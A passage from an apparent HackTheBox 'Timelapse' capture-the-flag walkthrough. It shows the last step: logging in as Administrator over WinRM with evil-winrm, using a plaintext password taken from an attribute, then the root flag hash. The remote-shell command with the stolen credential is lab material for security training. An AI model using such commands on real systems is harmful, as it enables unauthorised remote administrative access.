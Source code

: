And we can see the Administrator password in the attribute, so let's use it in WinRM and grab the root flag, which was in the user TXR Desktop's:

```bash
evil-winrm -u 'Administrator' -p '-wr8lMxvLm4H)4256zm18i5+' -i 10.10.11.152  -S
```

<p align="center">
  <img src="/images/walkthroughs/hackthebox/timelapse/3_0_root.png" width="70%"/>
</p>


``` 9633d77658e0e2d471b6db4bc3a345cc ```